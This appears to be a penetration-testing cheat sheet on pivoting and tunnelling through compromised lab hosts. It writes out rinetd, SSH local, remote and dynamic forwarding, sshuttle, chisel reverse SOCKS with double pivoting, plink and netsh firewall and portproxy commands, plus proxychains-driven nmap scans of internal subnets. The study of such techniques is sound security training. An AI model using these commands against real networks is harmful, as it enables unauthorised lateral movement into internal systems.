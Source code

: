 ### Socks
SOCKS5 supports authentication, IPv6, and User Datagram Protocol (UDP), including DNS. Some SOCKS proxies will only support the SOCKS4 protocol. 
### Port Forwarding
###### RINETD
```
cat /etc/rinetd.conf
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 142.0.128.189  22
...
service rinetd start
```
###### SSH local port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d54b48e3-43ed-4fde-ad3f-2d28b538bde5)

forward all packets which go to remote compromised machine:445 to 192.168.1.110:445(PGDATABASE01)
```
remote compromised machine(confluence01): ssh -N -L 0.0.0.0(src CONFLUENCE01):445:192.168.1.110(dst PGDATABASE01):445 student@PGDATABASE01
ssh -L local_port:target_ip:target_port user@jump_machine
```
###### ssh remote port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9355bdff-aa68-4989-aa53-0f3074a39739)

```
remote compromised machine(confluence01): ssh -N -R 127.0.0.1(confluence01):2345:10.4.50.215(PGDATABASE01):5432 kali@192.168.118.4(attacker machine)
ssh -R remote_port:target_ip:target_port user@jump_machine
```
###### SSH Dynamic Port Forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/f68cfac3-7e49-4f50-b104-ad7a672958e7)

Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised machine to a further internal network(PGDATABASE01)
```
remote compromised machine: ssh -N -D 0.0.0.0:9999(remote compromised machine - confluence01) database_admin@10.4.50.215(PGDATABASE01)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999(remote compromised machine - confluence01)
```
###### SSH Remote Dynamic Port Forwarding 
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/118dc119-bbce-4559-8ec6-5b1c1b7e50f5)

Remote Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised host(confluence to attacker machine)
```
remote compromised machine(confluence01): ssh -N -R 9998 kali@192.168.118.4(attacker machine)(listening state)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998(attacker machine)
```
###### sshuttle
```
1. confluence01: socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22(PGDATABASE01)
2. kali(attacker machine): sshuttle -r database_admin@192.168.50.63(PGDATABASE01):2222 10.4.50.0/24 172.16.50.0/24
```
###### HTTP Tunnel (Chisel)
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0c4201e9-44ae-4d2f-ad93-a5ddb4317f52)
```
Chisel Reverse dynamic Port Forwarding:
Confluence01: .\chisel.exe client 192.168.45.214:8080 R:socks
kali(attacker machine): chisel server --port 8080 --reverse/chisel server --port 8080 --socks5 --reverse

proxychains4:
add socks5 127.0.0.1 1080(chisel default port to listen)
disable proxy dns
sudo proxychains4 -f /etc/proxychains4.conf nmap -sS -Pn -p 80 172.16.243.10
```

```
<local-host>:<local-port>:<remote-host>:<remote-port>/<protocol>
which shares <remote-host>:<remote-port> from the server to the client as <local-host>:<local-port>

R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
  which does reverse port forwarding, sharing <remote-host>:<remote-port>
  from the client to the server's <local-interface>:<local-port>.

Chisel Reverse Port Forwarding
./chisel server --reverse --port 8080 --socks5.
chisel.exe client <kaliIP>:8080 R:8090:172.16.22.2:8000
Now we can access to http://172.16.22.2:8000/ via localhost:8090

Tip:
Using chisel to do one reverse port forwarding, doesn't have to use proxychains4 
```

Double Pivoting  
Kali (10.10.14.227) <<10.10.14.0/24>> DMZ01 (10.129.58.6 | 172.16.8.120) <<192.16.8.0/24>> DC01 (172.16.8.3 | 172.16.9.3) <<172.16.9.0/24>> MGMT01 (172.16.9.25)
```
kali: ./chisel_linux server --socks5 -p 9001 --reverse

/etc/proxychains:
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888

DMZ01:
./chisel_linux client 10.10.14.227:9001 R:9999:socks
./chisel_linux server  -p 9002 --reverse --socks5

DC01:
chisel.exe client 172.16.8.120:9002 R:8888:socks
```

```
Chisel Reverse Multiple ports forwarding:
In local machine
./chisel server -p 9999 --reverse

In remote machine
./chisel client 10.0.0.1:9999 R:3000:127.0.0.1:3000 R:8000:127.0.0.1:8000
After that, we can access to http://localhost:3000 and http://localhost:8000 in local machine.
```

```
Chisel Local Port Forwarding:
In remote
chisel server -p 9999 --socks5

In local
chisel client 10.0.0.1:9999 8000:socks
```
### Windows Port forwarding
###### PLINK.exe
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234(dst):127.0.0.1:3306(source) 10.11.0.4
```
###### Netsh
>for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=4455 listenaddress=10.11.0.22
```
###### ssh.exe
```
linux: 
1. sudo systemctl start ssh
windows: 
1. where ssh
2. ssh.exe -V (the version of OpenSSH bundled with Windows needs to be higher than 7.6, then we can use it for remote dynamic port forwarding)
3. ssh -N -R 9998 kali@192.168.118.4
linux: 
1. ss -ntplu(check socks5 9998 port state)
2. tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
3. proxychains command
```
